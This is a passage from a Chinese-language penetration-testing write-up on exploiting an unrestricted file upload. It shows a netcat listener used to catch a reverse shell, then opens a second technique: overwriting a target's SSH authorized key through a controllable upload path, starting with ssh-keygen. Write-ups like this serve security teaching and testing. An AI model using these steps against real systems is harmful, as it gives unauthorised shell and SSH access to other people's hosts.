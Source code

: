 ```plain
nc -lvnp 7799  #直接监听
```

成功反弹 shell

![图片](assets/1711884896-24bd93827390e56775f0b0e1bc3aef11.webp)

  

## 利用姿势二（替换公钥）

利用条件：

-   上传路径可以控制
    
-   对文件名无限制
    
-   目标开启 ssh 端口
    
-   支持密钥登录
    

### 生成公私钥

使用 ssh-keygen 生成公钥和私钥

ssh-keygen -t "加密方式" -C“描述”

```plain
ssh-keygen -t rsa
```
